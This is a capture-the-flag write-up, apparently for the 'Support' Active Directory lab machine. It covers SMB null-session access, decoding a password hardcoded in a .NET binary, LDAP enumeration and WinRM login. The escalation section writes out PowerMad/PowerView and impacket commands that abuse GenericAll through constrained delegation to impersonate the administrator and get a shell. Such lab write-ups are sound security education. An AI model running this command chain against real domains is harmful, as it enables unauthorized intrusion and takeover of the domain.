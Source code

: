 # Support (AD)

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (16) (5).png" alt=""><figcaption></figcaption></figure>

### Null Session

I found that SMB accepts null credentials for this machine:

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Viewing the support-tools share, we find that it contains multiple binaries.

<figure><img src="../../../.gitbook/assets/image (22) (6).png" alt=""><figcaption></figcaption></figure>

There's only one that was interesting, and it was the `UserInfo.exe` file. I took it back to my Windows VM and used dnSpy to open it.

### dnSpy

When decompiled, it seems that the binary was sending LDAP queries:

<figure><img src="../../../.gitbook/assets/image (26) (2).png" alt=""><figcaption></figcaption></figure>

Looking around, I also found this `password` function.

<figure><img src="../../../.gitbook/assets/image (18) (6).png" alt=""><figcaption></figcaption></figure>

We can decode this easily using some Python and following their logic.

```python
import base64
enc_pass="0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key=b"armando"

array = base64.b64decode (enc_pass)
array1 = []

for i in range(len(array)):
        array1.append(chr(array[i] ^ key[i % len(key)] ^ 0xDF))

array1 = ''.join(array1)
print (array1)
```

This would output the password.

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

### LDAPSearch

Then, since the binary does LDAP queries, I wanted to use the username and password given by the binary to query LDAP.

<figure><img src="../../../.gitbook/assets/image (25) (3).png" alt=""><figcaption></figcaption></figure>

On analysing the output, I found a hidden password for the `support` user.

<figure><img src="../../../.gitbook/assets/image (6) (6).png" alt=""><figcaption></figcaption></figure>

We can then `evil-winrm` in as this `support` user.

<figure><img src="../../../.gitbook/assets/image (13) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Once in, I started Bloodhound to enumerate for me. Upon reviewing the contents, I saw this interesting set of permissions over the DC.

<figure><img src="../../../.gitbook/assets/image (9) (4).png" alt=""><figcaption></figcaption></figure>

We can use PowerMad and PowerView to abuse the `GenericAll` privileges.

### GenericAll Abuse

We can use this set of commands to create a new user:

{% code overflow="wrap" %}
```powershell
New-MachineAccount -MachineAccount (Get-Variable -Name "FAKE01").Value -Password $(ConvertTo-SecureString 'password@123' -AsPlainText -Force) -Verbose
Set-ADComputer (Get-Variable -Name "DC").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FAKE01").Value + '$')
Get-ADComputer (Get-Variable -Name "DC").Value -Properties PrincipalsAllowedToDelegateToAccount
# on Linux from here 
impacket-getST support.htb/fake01 -dc-ip <IP> -impersonate administrator -spn www/dc.support.htb
export KRB5CCNAME=administrator.ccache
smbexec.py support/Administrator@support.htb -no-pass -k
```
{% endcode %}

This would spawn in a shell for us.

How it works is that we first create a new user that has the Constrained Delegation privilege. Then, we are able to impersonate the administrator and request a ticket that we can use to gain a shell with `smbexec.py`.

<figure><img src="../../../.gitbook/assets/image (24) (2).png" alt=""><figcaption></figcaption></figure>
